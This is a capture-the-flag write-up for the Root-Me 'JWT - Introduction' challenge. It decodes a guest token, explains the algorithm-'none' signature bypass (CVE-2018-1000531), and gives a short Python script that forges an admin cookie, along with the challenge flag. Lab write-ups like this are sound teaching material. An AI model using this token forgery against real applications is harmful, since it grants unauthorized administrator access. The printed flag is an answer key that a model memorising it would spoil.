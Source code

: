 ```yaml
---
title: JWT - Introduction
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, JWT attacks]
---
```


* Points: 20
* Link: [https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)

## Statement

> To validate the challenge, connect as admin.

## Analyzation

First look, we have a login form. There is a line ```Login as guest```. Click on it and there will be a guest's page.

Check the cookie, there is a new cookie added

```
jwt: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk
```

Decode it by [jwt.io](https://jwt.io/)

HEADER
```
{
  "typ": "JWT",
  "alg": "HS256"
}
```

PAYLOAD
```
{
  "username": "guest"
}
```

## Solution

Change the ```alg``` to ```None```, and change ```username``` to ```admin```. Check [CVE-2018-1000531](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1000531).

```py
import requests, jwt

URL = "http://challenge01.root-me.org/web-serveur/ch58/index.php"

encoded_jwt = jwt.encode({"username": "admin"}, key=None, algorithm="none")

response = requests.get(URL, cookies={"jwt": encoded_jwt})

print(response.text)
```

The flag is
```
S1gn4tuR3_v3r1f1c4t10N_1S_1MP0Rt4n7
```